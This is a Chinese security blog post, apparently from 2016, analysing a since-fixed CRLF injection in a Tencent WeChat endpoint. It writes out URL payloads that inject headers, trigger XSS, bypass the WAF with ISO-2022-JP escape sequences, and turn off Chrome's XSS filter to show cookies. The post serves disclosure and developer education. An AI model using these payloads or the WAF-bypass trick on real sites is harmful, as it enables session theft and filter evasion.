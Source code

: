 title: "CRLF Injection and Bypass Tencent WAF"
date: 2016-01-31 14:01:31
tags: [XSS, 安全]
---

## 前言

这是一篇关于HTTP Response Split（CRLF Injection）漏洞的及绕过腾讯WAF导致前端出现XSS的实例分析，个人觉得在这个过程中能学到点知识，因此整理出来分享一下，如果不感兴趣记得及时关闭页面。

## 关于HRS问题

我们都知道，HTTP协议是依靠两个CRLF，即`\r\n`来分割HTTP头部及响应体。基于这个认知，可以推出，HRS问题是由于服务端程序没有过滤掉头部中的特殊字符`%0D%0A`，直接输出到了返回的数据中，导致错误的解析。而在日常开发中，最常见的莫过于有以下的两种功能（1）URL跳转（2）Cookie的设置中出现。接下来的小节里，将会以一个Cookie实例作来说明这个问题的危害。实例在：http://wooyun.org/bugs/wooyun-2016-0173904 ，目前腾讯已经修复了。

## 接口说明

这个接口在大家使用微信红包的过程中都用过，我用xxx.com代表接口的域名，具体接口的功能我就先不说，虽然危害不大。接口如下：
```
https://xxx.com/cgi-bin/xxx/geiwofahongbaowojiugaosuni?exportkey=&pass_ticket=a
```

返回
```
HTTP/1.1 200 OK
Server: nginx/1.6.0
Date: Sat, 30 Jan 2016 12:08:28 GMT
Content-Type: text/html; charset=gbk
Content-Length: 0
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Set-Cookie: pass_ticket=a; Domain=xxx.com; Path=/; Expires=Sun, 31-Jan-2016 12:08:28 GMT
```

在微信端这个接口其实没有什么问题，因为微信客户端会把这个参数替换掉，因此攻击者填入的参数就会被直接去掉，然而在浏览器中，却导致了XSS。

## 一步一个脚印

#### 0x00 插入img标签

从上面接口的返回数据中，可以看到pass_ticket参数的值出现在了Set-Cookie头部中，我们先试试能不能用插入两个CRLF，然后插入img标签。
```
exportkey=&pass_ticket=a%0d%0a%0d%0a%3Cimg%20src=1%3E
```
然而这个请求返回了空，浏览器根本不去解析body里的内容。不能放弃，通过curl分析一下，发现其实后端并没有过滤，请求都返回了，只是Content-Length为0导致浏览器认为Body为空，使用命令`curl -kv <url>`可以看到以下的错误提示。
```
* Excess found in a non pipelined read: excess = 84 url = 
  /cgi-bin/xxx/geiwofahongbaowojiugaosuni?exportkey=&pass_ticket=a%0d%0a%0d%0a%3Cimg%20src=1%3E
  (zero-length body)
```
知道问题之后，我们下一步就是想方法让Content-Length的值不为0！试着在头部插入`Content-Length: 60`,得到以下的URL
```
exportkey=&pass_ticket=a%0d%0aContent-Length:60%0d%0a%0d%0a%3Cimg%20src=1%3E
```
浏览器里访问，bingo，图片出现了！

```
HTTP/1.1 200 OK
Server: nginx/1.6.0
Date: Sat, 30 Jan 2016 12:15:03 GMT
Content-Type: text/html; charset=gbk
Content-Length: 60
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Set-Cookie: pass_ticket=a

<img src=1>; Domain=wx.tenpay.com; Path=/; Expires=Sun, 31-J
```


![](https://raw.githubusercontent.com/zhchbin/zhchbin.github.io/source/source/images/56af0f2a143cfa3753b39a38XV1CJIiq.png)

#### 0x01 尝试执行脚本

能够插入img标签之后，我半生不熟的前端知识告诉我，src=1，图片肯定会加载失败，失败了就会有onerror的事件发生。于是，试试下面的URL
```
exportkey=&pass_ticket=a%0d%0aContent-Length:60%0d%0a%0d%0a%3Cimg%20src=1%20onerror=alert(1)%3E
```
事实告诉我们，现实并没有想象中的美好，服务器直接返回了501，这是什么原因导致的？尝试几次之后推断是被WAF拦截了。WAF是Web Application Firewall的缩写，我们的“恶意”请求被它检查出来。试了一下，发现在被和谐的的onerror和alert中间插入一些其他字符，就不会被拦截，例如：`on\error=al\ert(1)`，然而这并没有什么卵用，因为这根本就不是合法的HTML属性。

#### 0x02 Bypass WAF

有WAF，就得考虑如何绕过，然而在确认了自己的认知范围里并没有绕过的方法后，我去请教了某大牛。以下是他提供的思路及Bypass WAF的例子：


大概原理就是： 

1. 插入Content-Type更改response中的charset
2. 选择一个字符集，保证该字符集中的某个字符或字符串会被浏览器忽略（也可以是unicode transform）
3. 将会被忽略的字符插入到被blacklist拦截的字符之间
4. done

```
exportkey=&pass_ticket=a%0D%0AContent-Length:120%0D%0AContent-Type:text/html;%20charset=ISO-2022-JP%0D%0A%0D%0A%3Cimg%20src=x%20on%1B%28Jerror=al%1B%28Jert%28document.domain%29%3E
```

看到他的回复后，我只有一个想法：人要有敬畏之心！后来找了一下，在Chrome的Issue List找到了一些相关的讨论，https://crbug.com/114941

#### 0x03 绕过浏览器的XSS过滤

由于是反射型的XSS，Chrome里直接访问的时候会发现它拦截了脚本的执行，虽然在firefox里是可行的。从上面中的分析过程中，我们可以知道一个事情：可以在返回的头部的信息里插入任何头部信息！这看上去很赞，于是就想起了Chrome的XSS过滤是可以被关闭的，只要你返回的头部中带有`X-XSS-Protection:0`，构造URL如下：

```
?exportkey=&pass_ticket=a%0D%0AContent-Length:120%0D%0AX-XSS-Protection:0%0D%0AContent-Type:text/html;%20charset=ISO-2022-JP%0D%0A%0D%0A%3Cimg%20src=x%20on%1B%28Jerror=%22al%1B%28Jert%28document.co%1B%28Jokie%29%22%3E
```
点击后可以看到页面弹出了用户的Cookie，好了。虽然我们的`xxx.com`只是它的某个子域，这里的Cookie却弹出了其他子域名的，为什么呢？因为前端用了`document.domain = xx.com`。

![](https://raw.githubusercontent.com/zhchbin/zhchbin.github.io/source/source/images/56af08cb143cfae54c9777d4NE61bZEx.png)

## 最后说几句

在这个过程中，你学到了什么呢？反思这个过程，我觉得是信息量好大。对于我们做开发的，我认为最重要的一点是，用户的输入都是不可信的（这句话已经被无数人说过无数次了应该）。另外我读了一下Python Web框架里的一些代码，发现有些框架已经帮我们处理掉部分问题，例如在Flask中调用设置Cookie的相关接口中，`werkzeug`会使用白名单的机制检查每个byte，如果发现恶意字符，则将输入的值中用双引号包围起来，同时还有转义一部分字符，具体代码在这里：https://github.com/mitsuhiko/werkzeug/blob/master/werkzeug/_internal.py#L222。

放几个参考链接：

0. https://en.wikipedia.org/wiki/HTTP_response_splitting
1. http://blog.bentkowski.info/2014/07/google-doodle-xss-actually-response.html 
2. http://drops.wooyun.org/papers/2466
